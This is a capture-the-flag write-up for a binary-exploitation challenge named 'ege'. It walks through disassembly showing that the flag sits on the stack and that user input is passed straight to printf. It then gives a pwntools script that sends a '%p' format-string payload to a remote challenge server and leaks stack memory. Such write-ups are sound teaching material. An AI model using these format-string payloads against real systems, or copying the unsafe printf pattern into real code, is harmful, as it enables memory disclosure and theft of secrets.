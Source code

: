 # ege

Category: PWN
Points: ~920 
Solves: 16

Challenge Description:
another russian test i couldn't understand

Artifact Files:
[chall](./chall)

## Quick overview

This challenge asks us for a bunch of different questions in an "exam type"
with a bunch of different answers. 

Now i don't know russian so I just reversed it to find the correct answers :P

After passing this, we get to write something that seems to get printed back at us
before saying we failed the exam.

## The code

Now another interesting thing to take in account here is that the flag is loaded
on the stack at the start of the code:

```asm
│           0x000013c4      488d053d0c..   lea rax, str.FLAG           ; 0x2008 ; "FLAG"
│           0x000013cb      4889c7         mov rdi, rax                ; const char *name
│           0x000013ce      e87dfdffff     call sym.imp.getenv         ; char *getenv(const char *name)
│           0x000013d3      4889c2         mov rdx, rax
│           0x000013d6      488d45c0       lea rax, [dest]
│           0x000013da      4889d6         mov rsi, rdx                ; const char *src
│           0x000013dd      4889c7         mov rdi, rax                ; char *dest
│           0x000013e0      e87bfdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
```

And the second interesting part is... Well the print back of our input is through
the printf function AAAAND as format. This is a typical format string read on the stack...

```asm
│           0x000014dd      488d4590       lea rax, [format]
│           0x000014e1      be30000000     mov esi, 0x30               ; '0' ; int size
│           0x000014e6      4889c7         mov rdi, rax                ; char *s
│           0x000014e9      e8d2fcffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)

; ........ and later ..........

│           0x00001599      488d4590       lea rax, [format]
│           0x0000159d      4889c7         mov rdi, rax                ; const char *format
│           0x000015a0      b800000000     mov eax, 0
│           0x000015a5      e8f6fbffff     call sym.imp.printf         ; int printf(const char *format)
```

Meaning we can leak the flag from the stack by just dumping the hex memory.
We can use the `%p` format to print out the stack as a bunch of hex pointer addresses.

### Exploitation

Here is the exploit I used for this : 

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./chall')

if args.REMOTE:
    io = remote("84.201.137.163", 10293)
else:
    io = process()

ans = [4, 2, 5, 2, 4, 1]
for a in ans:
    io.sendlineafter(b'>> ', str(a).encode())

io.sendline(b'%16$p-%17$p-%18$p-%19$p-%20$p-%21$p')
io.interactive()
io.close()
```

as you can see this just answers the questions and dumps a bunch of hex memory
from the stack. We can then take whatever got printed out and put in cyberchef

Apply the following filters:
- From hex
- Switch endianness (n=8)

And we get the flag.

[Back to home](../../README.md)
